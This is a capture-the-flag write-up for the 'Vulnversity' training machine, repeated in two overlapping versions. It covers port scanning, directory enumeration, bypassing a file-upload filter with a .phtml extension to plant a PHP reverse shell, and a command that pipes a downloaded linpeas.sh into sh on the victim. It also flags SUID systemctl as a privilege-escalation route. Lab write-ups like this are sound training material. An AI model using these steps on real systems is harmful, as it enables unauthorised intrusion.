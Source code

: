 Vulnversity
=================

> Armand Alvarez | 17 July 2021

------------------------



Task 1: Reconnaissance

# Nmap scan

**21** - ftp - vsftpd 3.0.3
**22** - ssh - OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
**139** - netbios-ssn Samba smbd 3.x - 4.x
**445** - ' ' smbd 4.3.11-Ubuntu
**3128** - http-proxy - Squid http proxy 3.5.12
**3333** - http - Apache httpd 2.4.18

* Scan the box, how many ports are open?
`6`

* What version of the squid proxy is running on the machine?
`3.5.12`





# Vulnversity
 _Author: minimcloving_

 _Date: 17 July 2021_

--------------------
--------------------
## nmap scan

###Open Port
* **21** - ftp - vsftpd 3.0.3
* **22** - ssh - OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
* **139** - netbios-ssn Samba smbd 3.x - 4.x
* **445** - ' ' smbd 4.3.11-Ubuntu
* **3128** - http-proxy - Squid http proxy 3.5.12
* **3333** - http - Apache httpd 2.4.18

###OS Detection
* OS: Windows 6.1 (Samba 4.3.11-Ubuntu)


## GoBuster

```
http://<ip>:3333
wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
* /images
* /css
* /js
* /fonts
* /internal
* /server-status


## Notes

* /internal brings us to a form upload pages
    * .php is not allowed
    * No extention in original /usr/share/wordlists/wfuzz/general/extensions_common.txt are allowed
    * Fuzzing the upload form, we find that **.phtml** is allowed


## Walkthrough

* nmap scan
    * discovered webserver
* dirbuster to find dirs
    * discovered form upload
* fuzzed w/ burpsuite
    * discovered .phtml file extension allowed
    * uploaded php reverse shell with `.phtml` extension 
* get in with nc
    * Navigating around reverse shell, discover user named `bill`
    * his home directory contained the flag
* Transfer linpeas.sh to our exploited machine to run the script
    * On local machine, run this command:
        * `python -m SimpleHTTPServer 80`
    * On the victim machine, run this command:
        * `curl <local ip address*>/linpeas.sh | sh`
            * * If you are using openvpn, this will be the ip address that openvpn generates, not your actual machines local ip address. This is because the victim machine can only connect to the vpn address. Try it yourself: once you get into the machine, send a ping to both addresses (you may have to ctrl+c to escape the ping and redo your nc -lvnp connection)
* linpeas.sh shows under interesting files -> SUID:
    * /bin/systemctl


# CTF-Writeups
